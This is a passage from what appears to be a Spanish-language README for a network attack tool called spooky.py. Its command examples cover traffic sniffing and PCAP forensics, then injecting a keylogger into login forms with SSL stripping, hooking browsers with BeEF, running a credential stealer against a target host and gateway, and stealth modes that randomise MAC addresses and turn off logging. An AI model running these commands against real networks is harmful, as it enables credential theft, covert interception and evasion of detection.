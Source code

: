 ```bash
    --ml-analysis \
    --enable-osint
```

### 4. Análisis Forense
```bash
# Análisis profundo de tráfico
sudo python3 spooky.py --profile forensics \
    --only-sniff \
    --ml-analysis \
    --web-dashboard \
    --pcap /opt/spooky/pcaps/forensic_$(date +%Y%m%d).pcap

# Análisis de PCAP existente
sudo python3 spooky.py --dry-run \
    --ml-analysis \
    --pcap existing_capture.pcap
```

## 🔧 Ejemplos Avanzados

### Configuración de Payloads
```bash
# Keylogger en formularios web
sudo python3 spooky.py \
    --inject-payload keylogger \
    --target-domains "login,signin,auth" \
    --ssl-strip

# BeEF Hook para control del navegador
sudo python3 spooky.py \
    --inject-payload beef_hook \
    --target 192.168.1.100 \
    --gateway 192.168.1.1

# Credential stealer personalizado
sudo python3 spooky.py \
    --inject-payload credential_stealer \
    --web-dashboard \
    --timeout 7200
```

### Modo Stealth Avanzado
```bash
# Evasión máxima
sudo python3 spooky.py \
    --stealth \
    --randomize-mac \
    --interval 60.5 \
    --bpf "tcp port 80 or tcp port 443" \
    --max-pcap-size 50

# Anti-detección con intervalos aleatorios
sudo python3 spooky.py \
    --stealth \
    --interval 45.3 \
    --target 192.168.1.100 \
    --gateway 192.168.1.1 \
    --no-logging
```
